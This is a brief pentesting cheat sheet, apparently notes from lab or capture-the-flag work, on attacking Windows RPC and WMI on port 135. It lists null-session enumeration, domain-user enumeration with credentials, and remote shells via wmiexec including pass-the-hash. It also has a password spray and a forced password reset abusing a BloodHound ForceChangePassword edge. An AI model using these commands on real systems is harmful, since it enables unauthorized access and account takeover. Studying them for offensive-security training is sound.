Port 135, high-numbered ports for WMI connections
#### no creds:
```
nmap -p 135 --script=rpcinfo <target-ip>
```

```
rpcclient -U "" 10.129.153.142
```

```
python rpcdump.py <target-ip>
```

---
#### creds or if connected:
```
rpcclient -U "joe%Flowers1" -c enumdomusers 172.16.247.10
```

---
#### shell:
```
wmiexec.py domain/user:password@192.168.1.10
```
```
python wmiexec.py domain/user@192.168.1.10 -hashes :aad3b435b51404eeaad3b435b51404ee:cc36cf7a8514893efccd332446158b1a
```

---
#### spray:
```
nxc wmi 192.168.1.1 -u user -p pass
```

---
###### if owned user in bloodhound has ForceChangePassword permission over another user:
```
rpcclient -U 'rsmith' //10.10.146.118
```
- put in password, then:
```
setuserinfo2 ewalters 23 "d4nk!!!"
```

